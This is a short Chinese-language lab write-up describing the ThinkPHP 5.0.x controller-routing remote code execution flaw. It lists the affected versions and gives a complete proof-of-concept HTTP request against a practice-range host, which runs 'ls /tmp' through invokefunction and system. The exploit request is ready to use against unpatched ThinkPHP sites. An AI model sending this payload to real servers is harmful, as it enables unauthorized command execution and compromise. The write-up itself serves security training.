

#  thinkphp_5.0.21命令执行 by [hu4wufu](https://github.com/hu4wufu)

## 漏洞描述

Thinkphp5.x 版本（5.0.20）中没有对路由中的控制器进行严格过滤，在存在 admin，index 模块、没有开启强制路由的条件下（默认不开启），导致可以注入恶意代码利用反射类调用命名空间其他任意内置类，完成远程代码执行。

## 影响版本

ThinkPHP 5.x < ThinkPHP 5.1.31<= ThinkPHP 5.0.23

## 利用流程

1、打开靶场、抓包分析，下面是poc，拿到flag成功。


```
GET /index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls%20/tmp HTTP/1.1
Host: 118.193.36.37:28446
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: redirect=1
Upgrade-Insecure-Requests: 1

```